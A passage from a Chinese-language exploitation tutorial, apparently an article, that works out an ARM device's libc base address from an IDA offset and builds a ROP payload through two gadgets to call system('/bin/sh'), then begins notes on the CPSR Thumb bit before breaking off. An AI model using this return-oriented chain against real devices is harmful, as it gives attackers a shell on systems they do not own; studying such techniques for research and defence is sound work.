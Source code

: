 ![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgMotEujbviaicCtKoMafyBibqicFf94dljFtpZwo9onmHZjzKLib58lmaG5g/640?wx_fmt=png&from=appmsg "")  
  
使用ida打开libc.so.0文件，查看puts函数的IDA偏移量为0x35CD4(**相对偏移量**  
。该偏移量是静态的，与libc基址无关。)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKg2whuFbvlqfvJeb58VfpxxXval0goFCccMLncYkDRz0eI298SmrvjEg/640?wx_fmt=png&from=appmsg "")  
  
所以 libc基址=运行时地址−IDA偏移量=0x3fdd1cd4 - 0x35cd4 = 0x3fd9c000  
```
libc_base = 0x3fd9c000
```  
##### 3.6. payload流程如下  
  
最终 payload格式为:[offset, gadget1, system_addr, gadget2, cmd]  
```
payload =     b'A' * 溢出偏移      # 填充至返回地址前    + p32(gadget1_addr) # pop {r3, pc}    + p32(system_addr)  # 存入 r3    + p32(gadget2_addr) # 跳转到 gadget2    + b"/bin/sh\x00"    # 字符串参数（通过 r0 传递）
```  
##### 3.7. 执行流程  
1. **覆盖返回地址**  
：  
  
栈溢出后，返回地址被覆盖为   
gadget1  
 地址。  
  
1. **执行****gadget1**  
：   
  
```
armasm
```  
```
pop {r3, pc}  ; r3 = system_addr, pc = gadget2_addr
```  
- **执行****gadget2**  
：   
  
```
armasm
```  
```
mov r0, sp     ; r0 = 当前栈顶（指向 "/bin/sh"）blx r3         ; 跳转到 system(r0)
```  
- **执行****system("/bin/sh")**  
：  
  
启动Shell。  
  
备注：  
  
一、关于CPSR寄存器的T位问题  
1. ARM架构的指令模式特性：  
  
- ARM处理器有两种指令集状态：ARM（32位指令）和Thumb（16/32位混合指令）  
  
- CPSR寄存器的第5位（T位）控制当前模式：  
  